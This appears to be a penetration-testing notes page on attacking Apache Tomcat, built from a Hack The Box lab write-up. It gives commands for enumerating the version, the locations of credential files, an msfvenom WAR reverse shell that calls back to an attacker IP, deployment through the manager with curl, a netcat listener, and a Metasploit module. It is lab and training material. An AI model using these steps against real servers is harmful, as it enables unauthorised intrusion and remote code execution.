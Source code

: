 # Tomcat

### Tomcat Version Enumeration&#x20;

```
└─$ curl -s http://megahosting.htb:8080/docs/ | grep Tomcat
<title>Apache Tomcat 9 (9.0.31)
```

### Credential Locations

* Creds will be in one of these locations, wont be in both locations&#x20;

```
/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```

### Understanding your role once you have credentials&#x20;

> NOTE: For security reasons, using the manager webapp is restricted to users with role “manager-gui”. The host-manager webapp is restricted to users with role “admin-gui”. Users are defined in `/etc/tomcat9/tomcat-users.xml`.

The user tomcat has `admin-gui`, but not `manager-gui`, which means I can’t access the manager webapp:

<figure><img src="https://0xdfimages.gitlab.io/img/image-20200622204040089.png" alt=""><figcaption></figcaption></figure>

But I can access the host-manager webapp:

<figure><img src="https://0xdfimages.gitlab.io/img/image-20200622204142330.png" alt=""><figcaption></figcaption></figure>

### Text-based manager <a href="#text-based-manager" id="text-based-manager"></a>

* The tomcat user did have another permission, `manager-script`. This is to allow access to the text-based web service located at `/manager/text`. There’s a list of commands [here](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported\_Manager\_Commands).
* I can test it out with `list` and it works:

```
root@kali# curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

Now that I have access to the manager (even if not through the GUI)

### Deploy Malicious War <a href="#deploy-malicious-war" id="deploy-malicious-war"></a>

**Generate Payload**

With access to Tomcat Manager, I can proceed the with a malicious `.war` upload just like in [Jerry](https://0xdf.gitlab.io/2018/11/17/htb-jerry.html#exploiting-tomcat), but here I’ll use the text-based manager application to deploy it. I’ll generate a payload with `msfvenom` to get a simple reverse shell:

```
root@kali# msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=443 -f war -o rev.10.10.14.18-443.war
Payload size: 13398 bytes
Final size of war file: 13398 bytes
Saved as: rev.10.10.14.18-443.war
```

**Upload Payload**

Now I’ll use `curl` to send the payload. I’ll need to give it the application path (url), and send the payload using an HTTP PUT request. In `curl`, I’ll use `-T` or `--upload-file` to signify a PUT request:

> ```
>    -T, --upload-file <file>
>           This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name.  NOTE  that  you
>           must  use  a  trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote
>           file name to use. That will most likely cause the upload operation to fail. If this is used on an HTTP(S) server, the PUT command will be used.
> ```

I’ll deploy the payload with:

```
root@kali# curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/0xdf --upload-file rev.10.10.14.18-443.war 
OK - Deployed application at context path [/0xdf]
```

That’s:

* `-u 'tomcat:$3cureP4s5w0rd123!'` - the creds
* `/manager/text/deploy` - text-based path for `deploy` command
* `?path=/0xdf` - the path I want the application to live at
* `--upload-file rev.10.10.14.18-443.war` - war file to upload with HTTP PUT

The results suggest it worked. I’ll start `nc`, and then trigger it with `curl http://10.10.10.194:8080/0xdf`. I get a connection back with a shell:

```
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.194.
Ncat: Connection from 10.10.10.194:37000.
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

### Easy Pwns&#x20;

#### Apache Tomcat Metasploit

* **Version**: Apache Tomcat/8.0.47
* **OS**: Microsoft Windows 2008| Vista | 7
* **exploit**: multi/http/struts2\_rest\_xstream
* **Targeturi**: /struts2-rest-showcase/orders/

